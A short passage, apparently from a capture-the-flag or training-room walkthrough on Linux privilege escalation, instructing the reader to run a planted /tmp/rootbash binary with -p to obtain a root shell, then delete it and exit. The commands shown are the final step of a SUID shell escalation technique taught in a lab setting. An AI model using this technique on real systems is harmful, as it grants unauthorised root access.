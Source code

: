 
* Run the __/tmp/rootbash__ executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

> Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


